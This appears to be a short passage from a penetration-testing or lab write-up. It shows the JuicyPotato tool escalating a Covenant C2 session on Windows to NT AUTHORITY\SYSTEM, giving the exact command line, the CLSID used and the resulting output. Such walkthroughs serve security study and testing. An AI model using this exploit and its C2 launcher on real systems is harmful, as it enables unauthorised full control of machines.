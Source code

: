 \(admin\) &gt; cmd .\juicy.exe -t \* -p c:\users\destitute\desktop\grunt.bat -l 9001 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}

Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 9001

......

\[+\] authresult 0

{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

\[+\] CreateProcessWithTokenW OK

Note that the CLSID is something that I got from the site https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows\_10\_Enterprise\) and it is for the Windows Update Server \(wuaserv\). On running the batch file, we will get another grunt activated on Covenant and this time it will be as user NT Authority\System

\[2/1/2021 6:05:20 AM UTC\] WhoAmI completed

\(admin\) &gt; whoami

NT AUTHORITY\SYSTEM

